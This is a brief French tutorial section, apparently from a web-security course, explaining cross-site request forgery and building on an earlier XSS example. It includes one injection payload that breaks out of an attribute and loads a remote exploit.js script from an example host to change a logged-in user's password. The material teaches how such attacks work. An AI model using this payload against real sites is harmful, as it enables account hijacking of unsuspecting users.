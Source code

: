 # 3. Cross-Site Request Forgery (CSRF)

Le CSRF est une attaque qui combine l'injection HTML et le XSS pour faire des appels vers des API où l'utilisateur est authentifié.

Ainsi, le pirate peut effectuer des actions en se faisant passer pour l'utilisateur.

## Exemple

Si on continue avec l'exemple du [`2. XSS`](./2-xss.md), on pourrait importer directement
un script `exploit.js` comme ceci: `"><script src=//www.example.com/exploit.js></script>`.

Ce script pourrait contenir les instructions qui permettent de changer le mot de passe de l'utilisateur connecté, par exemple.
